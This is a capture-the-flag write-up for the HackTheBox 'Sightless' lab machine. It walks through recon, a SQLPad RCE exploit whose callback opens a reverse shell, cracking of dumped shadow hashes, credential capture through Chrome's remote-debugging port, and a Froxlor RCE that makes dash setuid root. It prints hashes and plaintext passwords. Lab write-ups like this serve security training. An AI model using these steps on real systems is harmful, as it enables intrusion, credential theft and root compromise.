









---
tags:
  - hack
  - linux
---
# HackTheBox: [Sightless](https://app.hackthebox.com/machines/Sightless)

Sightless simulates a webhost using SQLPad and Froxlor. An initial RCE allows access inside of a Docker container. Thanks to password re-use, a hash discovered inside the container allows access to the system hosting the container. From there, it's an exercise in exploiting a debugging exploit in the `chromedriver` headless configuration used for Selenium web-testing, and then a flaw in Froxlor allows full root access.

## Services

### TCP

```console
# Nmap 7.94SVN scan initiated Fri Sep 13 09:50:48 2024 as: nmap -v --reason -Pn -T4 --min-rate 10000 -p- --open -sCV -oN nmap_tcp-sightless.htb.txt sightless.htb
Nmap scan report for sightless.htb (10.10.11.32)
Host is up, received user-set (0.20s latency).
rDNS record for 10.10.11.32: t
Not shown: 63178 closed tcp ports (reset), 2354 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 63
| fingerprint-strings:
|   GenericLines:
|     220 ProFTPD Server (sightless.htb FTP Server) [::ffff:10.10.11.32]
|     Invalid command: try being more creative
|_    Invalid command: try being more creative
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 c9:6e:3b:8f:c6:03:29:05:e5:a0:ca:00:90:c9:5c:52 (ECDSA)
|_  256 9b:de:3a:27:77:3b:1b:e1:19:5f:16:11:be:70:e0:56 (ED25519)
80/tcp open  http    syn-ack ttl 63 nginx 1.18.0 (Ubuntu)
|_http-title: Sightless.htb
| http-methods:
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.18.0 (Ubuntu)
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port21-TCP:V=7.94SVN%I=7%D=9/13%Time=66E45F6B%P=x86_64-pc-linux-gnu%r(G
SF:enericLines,A0,"220\x20ProFTPD\x20Server\x20\(sightless\.htb\x20FTP\x20
SF:Server\)\x20\[::ffff:10\.10\.11\.32\]\r\n500\x20Invalid\x20command:\x20
SF:try\x20being\x20more\x20creative\r\n500\x20Invalid\x20command:\x20try\x
SF:20being\x20more\x20creative\r\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Sep 13 09:52:05 2024 -- 1 IP address (1 host up) scanned in 76.74 seconds
```

#### 21/tcp-ftp

Had some issues connecting using the basic `ftp` client, so I used `lftp` but anonymous-ftp was still disallowed:

```console
$ lftp anonymous:anonymous@t -e "set ssl:verify-certificate false"
lftp anonymous@t:~> ls
ls: Login failed: 530 Login incorrect.
```

#### 80/tcp-http

```console
$ feroxbuster -u http://sightless.htb/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt  -d1
...
404      GET        7l       12w      162c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
301      GET        7l       12w      178c http://sightless.htb/images => http://sightless.htb/images/
200      GET      341l      620w     6252c http://sightless.htb/style.css
200      GET      340l     2193w   190652c http://sightless.htb/images/logo.png
200      GET      105l      389w     4993c http://sightless.htb/
301      GET        7l       12w      178c http://sightless.htb/icones => http://sightless.htb/icones/
[####################] - 4m     87654/87654   0s      found:5       errors:24
[####################] - 4m     87650/87650   391/s   http://sightless.htb/
```




Froxlor, eh? and SQLPad?

Fuzzed subdomains and `froxlor.sightless.htb` didn't hit but `sqlpad.sightless.htb` does.

## Remote Code Execution

The subdomain `sqlpad.sightless.htb` was referenced via the main web page.



`Version: 6.10.0`

The exploit from [https://github.com/0xRoqeeb/sqlpad-rce-exploit-CVE-2022-0944](https://github.com/0xRoqeeb/sqlpad-rce-exploit-CVE-2022-0944) works, despite an error:

```console
$ python3 ./exploit.py 'http://sqlpad.sightless.htb/' 10.10.14.21 443
Response status code: 400
Response body: {"title":"connect ECONNREFUSED 127.0.0.1:3306"}
Exploit sent, but server responded with status code: 400. Check your listener.
```

```console
listening on [any] 443 ...
connect to [10.10.14.21] from (UNKNOWN) [10.10.11.32] 50674
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@c184118df0a6:/var/lib/sqlpad# id
id
uid=0(root) gid=0(root) groups=0(root)
```

## Privilege Escalation

Initial foothold is `uid=0` but it appears the be inside a docker container.

Container is a Debian Buster image:

```console
root@c184118df0a6:/# cat /etc/os-release
PRETTY_NAME="Debian GNU/Linux 10 (buster)"
NAME="Debian GNU/Linux"
VERSION_ID="10"
VERSION="10 (buster)"
VERSION_CODENAME=buster
ID=debian
HOME_URL="https://www.debian.org/"
SUPPORT_URL="https://www.debian.org/support"
BUG_REPORT_URL="https://bugs.debian.org/"
```

```console
root@c184118df0a6:/# env
HOSTNAME=c184118df0a6
YARN_VERSION=1.22.17
PWD=/
SQLPAD_DB_PATH=/var/lib/sqlpad
NODE_ENV=production
SQLPAD_PORT=3000
HOME=/root
SQLPAD_AUTH_DISABLED_DEFAULT_ROLE=admin
TERM=xterm-256color
SHLVL=3
SQLPAD_AUTH_DISABLED=true
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
NODE_VERSION=16.14.0
_=/usr/bin/env
OLDPWD=/var/lib/sqlpad
```

Account hashes are available, including a user `michael`:

```console
michael:$6$mG3Cp2VPGY.FDE8u$KVWVIHzqTzhOSYkzJIpFc2EsgmqvPa.q2Z9bLUU6tlBWaEwuxCDEP9UFHIXNUcF2rBnsaFYuJa6DUh/pL2IJD/:19860:0:99999:7:::
root:$6$jn8fwk6LVJ9IYw30$qwtrfWTITUro8fEJbReUc7nXyx2wwJsnYdZYm9nMQDHP8SYm33uisO9gZ20LGaepC3ch6Bb2z/lEpBM90Ra4b.:19858:0:99999:7:::
```

It actually cracks pretty quickly:

```console
$ hashcat ./hash.sightless ~/wordlists/rockyou.txt
...
$6$mG3Cp2VPGY.FDE8u$KVWVIHzqTzhOSYkzJIpFc2EsgmqvPa.q2Z9bLUU6tlBWaEwuxCDEP9UFHIXNUcF2rBnsaFYuJa6DUh/pL2IJD/:insaneclownposse
```

```console
$ ssh michael@t
Warning: Permanently added 't' (ED25519) to the list of known hosts.
michael@t's password:
Last login: Fri Sep 13 14:46:14 2024 from 10.10.14.9
-bash-5.1$ id
uid=1000(michael) gid=1000(michael) groups=1000(michael)
-bash-5.1$ cat user.txt
cdbc82...
```

`pspy64`:

```console
...
2024/09/13 16:40:23 CMD: UID=1001  PID=1647   | /bin/bash /home/john/automation/healthcheck.sh
2024/09/13 16:40:23 CMD: UID=1001  PID=1621   | /opt/google/chrome/chrome --type=renderer --headless --crashpad-handler-pid=1571 --no-sandbox --disable-dev-shm-usage --enable-automation --remote
-debugging-port=0 --test-type=webdriver --allow-pre-commit-input --ozone-platform=headless --disable-gpu-compositing --lang=en-US --num-raster-threads=1 --renderer-client-id=5 --time-ticks-at-un
ix-epoch=-1726236431306303 --launc
```

Probably [https://www.canva.dev/blog/engineering/discovering-headroll-cve-2023-0704-in-chromium/](https://www.canva.dev/blog/engineering/discovering-headroll-cve-2023-0704-in-chromium/)?

This also shows up in LinPEAS:





```json
$ curl http://localhost:39455/json/list
[ {
   "description": "",
   "devtoolsFrontendUrl": "/devtools/inspector.html?ws=localhost:39455/devtools/page/1A42A72BBB7B72B72F2E27BFEA882A20",
   "id": "1A42A72BBB7B72B72F2E27BFEA882A20",
   "title": "Froxlor",
   "type": "page",
   "url": "http://admin.sightless.htb:8080/index.php",
   "webSocketDebuggerUrl": "ws://localhost:39455/devtools/page/1A42A72BBB7B72B72F2E27BFEA882A20"
} ]
```

I forward the ports so I can access the debugging console via Chrome on my attack host:



From here I was able to watch the `chromedriver` healthcheck in real time, and view the `POST` form to grab the credentials for the `admin` user.



```text
loginname: admin
password: ForlorfroxAdmin
```

I use SSH port-forwarding for port 8080, and updated the hostname:

```console
127.0.0.1 admin.sightless.htb
```

Now I can login via `http://admin.sightless.htb:8080/`.





There's an [authenticated RCE](https://sarperavci.com/Froxlor-Authenticated-RCE/). I'm able to manipulate the restart command for PHP-FPM:



I then disabled and re-enabled PHP-FPM in Settings/Configuration.

After the cronjob runs:

```console
michael@sightless:$ ls -l /usr/bin/dash
-rwsr-xr-x 1 root root 125688 Mar 23  2022 /usr/bin/dash
michael@sightless:$ /usr/bin/dash -p
# id
uid=1000(michael) gid=1000(michael) euid=0(root) groups=1000(michael)
# cat /root/root.txt
d892cc...
```

## Post-exploitation

Here's the service setup.

`/home/john/automation/administration.py`:

```python
#!/usr/bin/python3
from selenium import webdriver
from selenium.webdriver.chrome.options import Options
from selenium.webdriver.chrome.service import Service
from selenium.webdriver.common.by import By
from selenium.webdriver.common.keys import Keys
from selenium.common.exceptions import UnexpectedAlertPresentException
from selenium.common.exceptions import NoAlertPresentException
from selenium.webdriver.common.alert import Alert
from selenium.webdriver.support import expected_conditions as EC
import time
import threading
import schedule

options = Options()
options.add_argument('--headless')
options.add_argument('--no-sandbox')
options.add_argument('--disable-dev-shm-usage')

# Update this line with the path to your locally downloaded Chrome driver
chrome_driver_path = '/home/john/automation/chromedriver'

# Use Service to specify the Chrome driver binary path
service = Service(chrome_driver_path)
service.start()

driver = webdriver.Chrome(service=service, options=options)

def dismiss_all_alerts(driver):
    while True:
        try:
            alert = driver.switch_to.alert
            print(f"Dismissed alert with text: {alert.text}")
            alert.accept()
            time.sleep(1)
        except NoAlertPresentException:
            break

print("browser opened")
while True:
    try:
        driver.get("http://admin.sightless.htb:8080/admin_logger.php?page=log")
        time.sleep(7)

        # Username Field
        input_element = driver.find_element(By.ID, "loginname")
        input_element.send_keys("admin")

        # Password field
        input_element = driver.find_element(By.ID, "password")
        input_element.send_keys("ForlorfroxAdmin" + Keys.ENTER)
        print("Logged In...")
    except UnexpectedAlertPresentException:
        input_element.send_keys(Keys.ENTER)
        pass
    time.sleep(5)
    dismiss_all_alerts(driver)
    driver.get("http://admin.sightless.htb:8080/admin_index.php?action=logout")
    driver.get("http://admin.sightless.htb:8080/")
    print("Logged Out")
    time.sleep(3)
    #driver.close()
```

```console
# file ./chromedriver
./chromedriver: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=d7469ac365948b5f89dcbdc8134025d8fad57bd4, stripped
# ./chromedriver --version
ChromeDriver 124.0.6367.201 (46cf136d27d50afd9c618d164a3b95b3b62d0027-refs/branch-heads/6367@{#1130})
```

`/home/john/automation/healthcheck.sh`:

```bash
#!/bin/bash

check_and_run() {
    if pgrep -f "/opt/google/chrome/chrome" > /dev/null
    then
        echo "Chrome is running."
    else
        echo "Chrome is not running. Starting the Python script."
        python3 /home/john/automation/administration.py &
    fi
}

while true; do
    check_and_run
    sleep 60
done
```

```console
root@sightless:/var/www/html/froxlor# grep \$y /etc/shadow
root:$y$j9T$PScOTu/SFg7oaa/bfW4pL0$7oWEYAy0P18E3uDpsZUyoy78cubBKODqotqtAp4GtK0:19860:0:99999:7:::
michael:$y$j9T$VdjDEROmqIwhwxW5Mqie//$yo5dlS5BvDOm5r4snRGg6JQp2lK2Vip3mC5.A.e94S3:19860:0:99999:7:::
john:$y$j9T$0LxNq2qUgY68Htn6MURro/$X0njIWFZLfEQ.vKrDiPz5.GO3eJ7vHY1YSvmCc.5KvC:19858:0:99999:7:::
```

```console
john@sightless:~$ crontab -l
...
# m h  dom mon dow   command
@reboot sleep 110 && /usr/bin/python3 /home/john/automation/administration.py
@reboot sleep 140 && /home/john/automation/healthcheck.sh
```
